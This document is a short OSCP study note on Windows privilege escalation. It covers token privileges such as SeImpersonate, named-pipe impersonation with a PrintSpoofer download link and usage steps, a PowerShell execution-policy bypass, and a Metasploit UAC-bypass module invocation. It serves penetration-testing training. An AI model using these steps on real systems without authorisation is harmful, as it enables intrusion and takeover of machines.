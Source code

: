 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/9-using-exploits/","updated":"2024-01-05T11:35:11.849+01:00"}
---
```


- Another way of performing privilege escalations is by exploiting vulnerabilities
- There are several kinds:
	- Application running by a higher privileged user
	- Windows Kernel
		- Can easily crash the system
	- Windows Privileges
		- Users with SeImpersonatePrivilege are assigned specific privileges by leveraging a token in a specific context, which can be abused.
		- This most often occurs when breaching the account of a service such as a web server, and not standard users, which may run as: _LocalService_, _LocalSystem_, _NetworkService_, or _ApplicationPoolIdentity_.
		- Others privileges that can be abused include: SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug.

### Named Pipes:
- A method for two unrelated processes to share and transfer data with each other.
- A named pipe server creates a named pipe to which a named pipe client can connect. The server and client does not have to reside on the same system.
- Once a client connects to a named pipe, the server can leverage _SeImpersonatePrivilege_ to impersonate this client after capturing the authentication from the connection process.
- To abuse it we need: A privileged process to connect to a controlled named pipe with _SeImpersonatePrivilege_.
- Example is "PrintSpoofer" which makes NT AUTHORITY connect to a controlled named pipe for command execution.
- Printspoofer: https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

To exploit:
1. Make sure _SeImpersonatePrivilege_ is turned on for your current user with:
```
whoami /priv
```
2. Get the script from your computer.
3. Execute it and win!

Other exploits good to know:
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

-------
### Meterpreter UAC bypass:
- Review the integrity level of current process:
```powershell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- In meterpreter:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

